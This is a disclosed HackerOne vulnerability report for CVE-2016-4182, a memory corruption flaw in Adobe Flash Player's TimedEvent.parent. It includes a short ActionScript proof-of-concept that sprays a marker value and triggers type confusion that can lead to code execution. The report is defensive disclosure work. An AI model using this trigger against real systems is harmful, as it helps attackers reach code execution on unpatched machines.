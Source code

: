 # Adobe Flash Player TimedEvent.parent Memory Corruption Vulnerability

## Report Details
- **Report ID**: 151039
- **URL**: https://hackerone.com/reports/151039
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-13T02:43:12.189Z
- **Disclosed**: 2019-11-12T09:42:06.522Z

## Reporter
- **Username**: hhj4ck
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
I. Summary
Adobe Flash Player is prone to a vulnerability which leads to memory corruption because of uninitialize memory of TimedEvent.parent.
------------------------------------------------------------------
II. Description
Normally, TimedEvent class should initialize the memory of its parent field. Without proper initialization, one could hijack the the memory address of parent field by construct the TimeEvent Class based on a released memory block. It is possible fake a TimedEvent Class Object via the parent field, type confused class pointer will cause code execution.
The poc code trigger the crash while trying to build a TimeEvent Class by calling the contructor at 0x13371337.

POC Source Code:
package
{	
	import com.adobe.tvsdk.mediacore.events.TimedEvent;
	import com.adobe.tvsdk.mediacore.metadata.Metadata;	
	import flash.display.Sprite;
	import flash.utils.ByteArray;
	import flash.utils.Endian;

	public class poc extends Sprite
	{
		public function poc()
		{
			var bytes:ByteArray = new ByteArray();
			bytes.endian = Endian.LITTLE_ENDIAN;
			for(var i:int=0;i<0x100/4;i++)
				bytes.writeUnsignedInt(0x13371337);
			
			var mt:Metadata = new Metadata();
			mt.setByteArray("jack", bytes);
			
			var obj:TimedEvent = new TimedEvent(0);
			obj.parent;
		}		
	}
}
------------------------------------------------------------------
III. Impact
Memory Corruption
------------------------------------------------------------------
IV. Affected
Adobe Flash Player 21.0.0.242.
------------------------------------------------------------------
V. Credit
Wen Guanxing from Pangu LAB is credited for this vulnerability.

It has been assigned as CVE-2016-4182 by Adobe:
https://helpx.adobe.com/security/products/flash-player/apsb16-25.html

## Attachments
- poc.swf
